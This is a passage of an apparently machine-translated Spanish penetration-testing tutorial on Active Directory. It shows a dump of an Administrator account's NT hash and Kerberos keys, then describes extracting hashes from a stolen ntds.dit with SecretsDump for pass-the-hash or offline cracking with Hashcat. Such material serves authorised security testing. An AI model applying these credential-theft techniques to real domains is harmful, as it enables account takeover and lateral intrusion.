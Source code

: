 ```powershell-session
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

#### Extracción de hashes usando SecretsDump

También podemos usar`SecretsDump`fuera de línea para extraer hashes del`ntds.dit`archivo obtenido anteriormente. Estos se pueden usar para pasar el paso para acceder a recursos adicionales o descifrar fuera de línea utilizando`Hashcat`Para obtener más acceso. Si se desciframos, también podemos presentar al cliente estadísticas de descifrado para proporcionarles una visión detallada de la fuerza y ​​el uso general de la contraseña dentro de su dominio y proporcionar recomendaciones para mejorar su política de contraseña (aumentar la longitud mínima, crear un diccionario de palabras no permitidas, etc.).
